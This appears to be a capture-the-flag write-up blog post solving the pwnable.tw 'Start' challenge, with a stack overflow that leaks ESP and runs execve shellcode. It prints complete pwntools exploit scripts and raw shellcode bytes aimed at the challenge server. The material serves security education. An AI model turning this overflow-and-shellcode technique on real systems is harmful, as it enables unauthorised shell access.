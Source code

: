 ```yaml
---
layout: post
author: tourpran
title: Start - pwnable.tw
categories: writeup
tags: ["pwnable.tw"]
---
```


![](/assets/images/pwnabletw1/pwnable1.png)

#### AIM:
Hey guys, Here our main objective is to get a shell and then to get the flag !!
I have tried my best to explain the challenge. Hope you like it !!

### Solution:

First I check the mitigations :

![](/assets/images/pwnabletw1/pwnable2.png)

So I think it's going to be fun !! As we have the permission to execute the stack (NX disabled). There is also no PIE so we don't have to worry about the address changing every time :)
Now, let us run the binary and see what is happening :>

![](/assets/images/pwnabletw1/pwnable3.png)

So it's simple just asking input and printing something. Now its time to see the assembly behind this binary.

![](/assets/images/pwnabletw1/pwnable4.png)

So we can observe that all the registers are being emptied and then 5 values are beings pushed to the stack.
If we examine them we can see that they are the strings that are printed when we run the binary.
Math → 5 pushes are made and 4 bytes are taken for each push so a total of 20 bytes is taken by the binary to store it :P.
Also ``INT 0x80`` is equivalent to syscall. We can observe 2 syscalls being called

![](/assets/images/pwnabletw1/pwnable5.png)

The first syscall is used to make the write. (For printing the string)

![](/assets/images/pwnabletw1/pwnable6.png)

The second syscall is used to call read ( Probably to take our input ). Now let's see what we can do to get root access !!

I hope you find the offset by yourself or try pattern create in gdb-peda. :)

#### Idea:

* We have to overflow to the return address and then we have to somehow leak the stack pointer (ESP)
* So if we get the stack pointers address then we can place the shellcode there and then point the EIP to that address to give us a shell!

``Remember the write syscall prints the buffer pointed by the ECX.``

* After the syscall, the stack is cleared as they call the add instruction (It removes the 20 bytes)

#### Crafting the Exploit:

* first 20 bytes to fill the buffer then put the address of move ESP to ECX.
* So first input will give the ESP.
* Next, we place the shellcode (from shellstorm.org) then execute it.
* We don't have to worry about the shift of the stack because there is no PIE

```py
from pwn import *
p = remote('chall.pwnable.tw', 10000)
print(p.read())
buf = 'A'*20
buf += p32(0x08048087)
p.send(buf)
esp = unpack(p.read()[:4])
print hex(esp)
p.interactive()

```

note: u32 is the opposite of p32 this returns the number and then we convert the number to hex. Also, we read the first 4 bytes the server sends us.

Output: ``0xff819750``

#### Final Exploitation

* We place the shellcode then just execute it, in the read that followed the write.

```py

from pwn import *
p = remote('chall.pwnable.tw', 10000)
print(p.read())
buf = 'A'*20
buf += p32(0x08048087)
p.send(buf)
esp = unpack(p.read()[:4])
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
#new exploit
buf = 'a'*20
buf += p32(esp+20)
buf += shellcode
p.send(buf)
p.interactive()

```

![](/assets/images/pwnabletw1/pwnable7.png)

I hope you liked the write-up. More writeups on its way.
